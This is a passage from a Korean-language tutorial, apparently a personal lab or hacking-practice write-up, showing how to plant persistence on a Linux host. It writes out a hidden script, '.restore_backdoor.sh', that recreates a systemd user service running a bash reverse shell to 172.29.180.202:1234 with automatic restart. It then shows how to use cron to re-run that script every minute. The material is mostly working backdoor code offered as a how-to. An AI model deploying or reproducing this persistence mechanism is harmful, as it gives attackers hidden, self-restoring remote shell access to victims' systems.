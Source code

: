 스케줄은 `~/.config/systemd/user/reverse-shell.service` 경로에 있는 파일을 특정 시간마다 반복하게 해줄 건데 현재 상황을 고려해서 1분마다 반복하도록 설정해주겠다.  

우선 스케줄 등록해줄 파일부터 만들어주자.  
경로는 `nano /home/kali1/.restore_backdoor.sh` 이 위치에 숨김처리해서 올려준다.  

```bash
nano /home/kali1/.restore_backdoor.sh
```

  

```ini
#!/bin/bash

SERVICE_PATH="$HOME/.config/systemd/user/reverse-shell.service"

if [ ! -f "$SERVICE_PATH" ]; then
  mkdir -p ~/.config/systemd/user

  cat > "$SERVICE_PATH" <<EOF
[Unit]
Description=User Reverse Shell
[Service]
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/172.29.180.202/1234 0>&1'
Restart=always
[Install]
WantedBy=default.target
EOF

  systemctl --user daemon-reload
  systemctl --user enable reverse-shell.service
  systemctl --user start reverse-shell.service
fi
```
이렇게 파일이 없어지면 다시 복구할 수 있는 코드를 써준다.   

```bash
chmod +x ~/.restore_backdoor.sh
```
실행권한도 준다.  


<br>
<img src="https://github.com/user-attachments/assets/190b5cd5-c45f-4c33-9aeb-e620ff99db9c" width=700>  

```bash
crontab -l
crontab -u [사용자계정] -e
crontab -e
```

첫번째 명령어로 시스템에 등록된 crontab을 확인할 수 있고,  
두번째 명령어로 특정 사용자계정에 스케줄을 등록할 수 있다.  
세번째 명령어는 그냥 지금 같은 상황에서 해당 사용자의 스케줄을 등록할 수 있다.  

만약 처음 등록하는 것이라면 에디터를 선택하라는 문구가 나올 것이다.  
난 이전에 선택한 적이 있어서 select-editor 명령어로 다시 설정창을 띄웠다.   
